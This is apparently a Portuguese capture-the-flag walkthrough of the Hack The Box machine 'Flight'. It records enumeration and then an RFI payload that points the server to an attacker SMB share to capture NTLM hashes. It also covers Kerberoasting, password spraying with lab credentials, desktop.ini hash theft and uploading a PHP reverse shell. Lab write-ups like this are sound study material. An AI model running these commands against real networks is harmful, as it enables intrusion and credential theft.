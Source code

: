 # Flight

## Enumeration

Nmap script

![qownnotes-media-VMuwah](../../media/qownnotes-media-VMuwah.png)

UDP scan

![qownnotes-media-VMgxgZ](../../media/qownnotes-media-VMgxgZ.png)

Full TCP scan

![qownnotes-media-Wvevvm](../../media/qownnotes-media-Wvevvm.png)

Então temos:

DNS HTTP Kerberos RPC SMB LDAP

### HTTP

![qownnotes-media-zNgBXB](../../media/qownnotes-media-zNgBXB.png)

![qownnotes-media-TwGaZc](../../media/qownnotes-media-TwGaZc.png)

![qownnotes-media-VveKHl](../../media/qownnotes-media-VveKHl.png)

![qownnotes-media-qQXkSz](../../media/qownnotes-media-qQXkSz.png) =======> Possible entry point

Dando sequência após a enumeração dos demais. Nada encontrado exceto por este subdomínio:

```
school.flight.htb
```

### SMB

![qownnotes-media-bkzCgk](../../media/qownnotes-media-bkzCgk.png)

```
g0.flight.htb
```

![qownnotes-media-DQoVIc](../../media/qownnotes-media-DQoVIc.png)

### RPC

![qownnotes-media-kBtyxd](../../media/qownnotes-media-kBtyxd.png)

### LDAP

![qownnotes-media-LnGbjN](../../media/qownnotes-media-LnGbjN.png)

### Kerberos

```
kerbrute userenum --domain flight.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.11.187
```

![qownnotes-media-RAnyke](../../media/qownnotes-media-RAnyke.png)

### DNS

![qownnotes-media-OxlPjV](../../media/qownnotes-media-OxlPjV.png)

![qownnotes-media-nyDtLD](../../media/qownnotes-media-nyDtLD.png)

![qownnotes-media-OyCEfo](../../media/qownnotes-media-OyCEfo.png)

### HTTP continue

```
school.flight.htb
```

![qownnotes-media-iUmICa](../../media/qownnotes-media-iUmICa.png)

![qownnotes-media-kMffXk](../../media/qownnotes-media-kMffXk.png)

Aqui eu notei que o que muda é o parâmetro "view" da URL, então eu tentei esse mesmo teste, mas de maneira diferente:

```
ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 1102
```

![qownnotes-media-XXURur](../../media/qownnotes-media-XXURur.png)

![qownnotes-media-puTALa](../../media/qownnotes-media-puTALa.png)

As que vieram diferentes foram:

![qownnotes-media-KrRjij](../../media/qownnotes-media-KrRjij.png)

```
g0.flight.htb
```

![qownnotes-media-CDlMtu](../../media/qownnotes-media-CDlMtu.png)

Deu em nada aqui

No entanto, se formos parar para perceber, me parece que isso pode estar sendo consultado no banco de dados... Vamos para um outro teste :

#### SQLi

```
ffuf -c -ic -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 7069,1170,1102
```

![qownnotes-media-NHAXrq](../../media/qownnotes-media-NHAXrq.png)

![qownnotes-media-RlSMVb](../../media/qownnotes-media-RlSMVb.png)

![qownnotes-media-SdlWrO](../../media/qownnotes-media-SdlWrO.png)

![qownnotes-media-HtZCrq](../../media/qownnotes-media-HtZCrq.png)

#### LFI

PWNED!

![qownnotes-media-GeVlbb](../../media/qownnotes-media-GeVlbb.png)

## Exploitation

Para conseguir explorar essa vulnerabilidade, testei algumas coisas, no entanto, imaginei que fosse algum arquivo que eu deveria extrair e , na verdade se tratava de um RFI e, sendo assim, seria possível obter o hash de senha por meio do seguinte payload:

```
impacket-smbserver -smb2support smb .

http://school.flight.htb/index.php?view=//10.10.14.14/smb/test.txt
```

Dessa forma eu forço o sistema a me enviar o hash netNTLM da máquina e eu posso extraí-lo para quebrá-lo e dar sequência no ataque:

![qownnotes-media-hMblhO](../../media/qownnotes-media-hMblhO.png)

![qownnotes-media-JCOaeL](../../media/qownnotes-media-JCOaeL.png)

Tentativa com Kerberoasting

```
impacket-GetUserSPNs 'flight.htb/svc_apache:S@Ss!K@*t13' -dc-ip 10.10.11.187 -request
```

As Rep Roasting:

```
impacket-GetNPUsers -dc-ip 10.10.11.187 flight.htb/ -usersfile users.txt -format john -outputfile hashes

enum4linux -u svc_apache -p 'S@Ss!K@*t13' 10.10.11.187
 
```

Comecei a entrar em vários diretórios, mas de novo sem saber exatamente o que procurar no SMB, exceto pelo Groups.xml Enumerei pelo bloodhound:

```
 bloodhound-python -u svc_apache -p 'S@Ss!K@*t13' -d flight.htb -v --zip -c All -dc g0.flight.htb -ns 10.10.11.187
 
```

Sem sucesso. Password Spray:

```
crackmapexec ldap 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue

crackmapexec winrm 10.10.11.187 -u users.txt -p passwords.txt --continue

crackmapexec winrm 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue
```

![qownnotes-media-ZJWfVt](../../media/qownnotes-media-ZJWfVt.png)

Continuando a enumeração:

```
crackmapexec smb 10.10.11.187 -u 's.moon' -p 'S@Ss!K@*t13' --shares
```

![qownnotes-media-Swipnb](../../media/qownnotes-media-Swipnb.png)

Nesse momento, é interessante considerar a possibilidade de explorar o serviço via SMB, dado que temos autorização de escrita em um dos compartilhamentos listados. Temos alguns vetores para este caso,sendo eles documentados [aqui](../../3\_Exploitation/SMB.md)

Utilizando um desktop.ini com o exemplo obtido na referência acima, conseguimos a credencial do c.bum

c.bum:Tikkycoll\_431012284

Que tem acesso de escrita em uma pasta compartilhada também chamada Web:

```
crackmapexec smb 10.10.11.187 -u c.bum -p 'Tikkycoll_431012284' --shares
```

Depois disso, basta subir uma shell reversa em PHP para conseguir execução de comandos na máquina:

```
smbclient -U flight.htb/c.bum //10.10.11.187/Web -c "put revshell.php"
```
